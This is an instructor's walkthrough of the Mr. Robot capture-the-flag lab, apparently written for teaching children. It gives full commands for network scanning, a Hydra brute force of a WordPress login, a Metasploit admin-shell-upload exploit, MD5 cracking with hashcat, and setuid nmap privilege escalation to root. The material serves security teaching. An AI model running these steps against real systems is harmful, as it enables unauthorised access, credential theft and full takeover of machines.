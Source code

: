 # Instructor: Mr. Robot Walkthrough

General guidance:

1. Pay attention to the IP address- the VM may have a different IP address- if the kids copy & insert their material
2. Many command flags are case sensitive.  Pay attention to the case of command flags
3. Be sure to ask the kids if they want to take a break after finding a flag.  Going through all 3 may be too advanced for many of the kids.

**_First Flag_**

Students should first use *ip* to see their network details, then they should use *nmap* to find what hosts sit on the network. They should see one of the hosts has ports 80 and 443 open, indicating it’s probably hosting a web application. They should navigate to this ip address in a browser. They should execute:

* **Go to a Kali**** terminal**
* **ip**** ****addr**** show eth0**
* **nmap**** ****-n 10.13.13.0/24**

[Image: image.png]The first flag can be found by navigating to the robots.txt for the site in the browser. From there, students should see there is a file called key-1-of-3.txt they can navigate to. In addition, there will be an fsociety.dic file, they should download that now. The process for getting there is:

* **<web app ****ip**** address>/robots.txt**
* **<web app ****ip**** address>/key-1-of-3.txt**

**_Second Flag_**

The second flag is a little trickier and will take a bit more time. First, students should try to navigate to a page that doesn’t exist. This should generate a 404 page; this will reveal that the site is powered via wordpress. One of the features of wordpress is the ability to login as either a user or an admin. This site is found on /wp-login.php. The steps are:

* **Navigate to <web app ****ip**** address>/****completelyfakepage**
* **Click ****Log in on the bottom left**

[Image: image.png]From here the student will need to do some password cracking to be able to login. First, they should try and login and see that the site will say if a username is correct or not. They should try elliot (name of the main character in the show) to see it’ll say the password is wrong. They should open developer tools and go to the network tab while trying to login from here they should look at a sample call to see what that looks like.

* **Open developer tools and go to network tab**
* **Login with a random username/password**
* **Try logging in with ****elliot**** as username**

[Image: image.png]This is where the fsociety.dic file comes into play. However, it contains a lot of duplicates and will slow down the cracking process, so it should be deduped first. This can be done via: *sort -u **fsocity.dic** -o **uniq.dic*

* **Go to <web app ****ip**** address>/****foscity.dic**** and download the file**
* **On the downloaded file**** (in a terminal)**** run: **** sort -u ****fsocity.dic**** -o ****uniq.dic**

From here, the student can run THC Hydra, a password cracking tool. Based on the knowledge they gained about the login calls and their failed attempt they should have everything they need to start the cracking a sample command is: *hydra -**l** **elliot** -P **uniq.dic** **<SERVER IP>** http-post-form “**/**wp-login.php:log**=^USER^&**pwd**=^PASS^:**F=is incorrect**”* which will take significantly less time. Finally, the correct login is: user: elliot, pass: ER28-0652. The process is as follows:

* **Go to a Kali**** terminal**
* **h****ydra -l ****elliot**** -P ****uniq.dic**** <web app ****ip**** address> http-post-form “/****wp-login.php:log****=^USER^&****pwd****=^PASS****^:F****=is incorrect”**

[Image: image.png]Students are going to probably want to play around on the admin site for a while. Ultimately they’ll realize the second key isn’t on the web app. You should point out they likely need to get access onto the box to do that. Thankfully WordPress has a long history of vulnerabilities! Specifically one for performing reverse shell uploads. Metasploit is just the tool to do that for them.

Do make sure to talk about what Metasploit is and what makes it so useful.

The process is as follows:

* **Go to a Kali**** terminal**
* **Run ****ms****f****console**
* **use exploit/****unix****/****webapp****/****wp_admin_shell_upload**
* **set USERNAME ****elliot**
* **set PASSWORD ER28-0652**
* **set RHOST ****10.13.13.102**
* **set WPCHECK false**
* **exploit**
* **In ****meterpreter**** run shell**

[Image: image.png][Image: image.png][Image: image.png]The default meterpreter shell is kind of annoying and students won’t like it. They should setup a quick python script to give them a proper shell. The steps for this is as follows:

* **`echo "import `****`pty`****`; `****`pty.spawn`****`('/bin/bash')" > /tmp/asdf.py`**
* **`python /tmp/asdf.py`**

[Image: image.png]Students probably won’t know this but /home/ is really useful for finding info about who’s on the box. If they cd into the /home/ directory they should find there’s a user called robot. If they cd into /home/robot/ they should see two things: the second key file and an md5 hash of robot’s password. They won’t be able to access the file since they’re not robot. They should be able to see the hash in the password file though. The steps are as follows:

* **cd /home/**
* **cd robot/**
* **cat password.raw-md5**

[Image: image.png]You should let the student know that md5 is considered broken and easy to break. In addition, kali comes with a hash breaker called hashcat they can use to crack the password. Kali also comes with a wordlist they can use to brute force the password. This file is called rockyou. The steps for cracking it as follows:

* **Copy ****the hash in the password.raw-md5 file**
* **Go to a Kali terminal**
* **gunzip**** /****usr****/share/wordlists/rockyou.****txt.gz**
* **echo “<copied hash>” > password.md5**
* **hashcat**** --force -a 0 -m 0 password.md5 /****usr****/share/wordlists/rockyou.txt -o cracked.txt**
* **cat cracked.txt**

[Image: image.png][Image: image.png][Image: image.png]Now they have the username/password for the robot user. It’s robot/abcdefghijklmnopqrstuvwxyz essentially the password is all letters of the alphabet. Back on the server shell they should run su robot to login as them. Then they can access the second key. The process is as follows:

* **su**** robot**
* **cat key-2-of-3.txt**

[Image: image.png]**_Third Flag_**

Finally, they’ll need to gain access to root, ideally the documentation explains what root is and why it’s so important to protect, but some reminding might be necessary. What they should also know is that some programs will actually run as a different user than the person that started the program, this means that while they ran the program, the program could be running as someone entirely different. Thus, if they can trick or get that program to open a shell, then they would be able to act as root if it’s set to run as root. This is where the setuid flag comes into play. They can find all programs with this flag set via: *find / -perm -4000 2> /dev/null*. The process is as follows:

* **find / -perm -4000 2> /dev/null**

[Image: image.png]What they should find is a few programs with it set, most of them should make sense, but nmap should be strange to them. If they just run *nmap* with no flags, they should find it’s actually a version with an interactive mode! In addition, they should run ls -l on it and see it’s owned by root. Thus *nmap** --interactive* will actually grant them a root shell, from there a simple *!**sh* will grant a more usable shell with which they can navigate to /root and see the final flag. The steps are as follows:

* **ls -l /****usr****/local/bin/****nmap**
* **nmap**** --interactive **
* **!****sh**
* **whoami**
* **cd /root/**
* **ls**
* **cat key-3-of-3.txt**

[Image: image.png]

After you have successfully setup your environment, you can proceed to the next module.
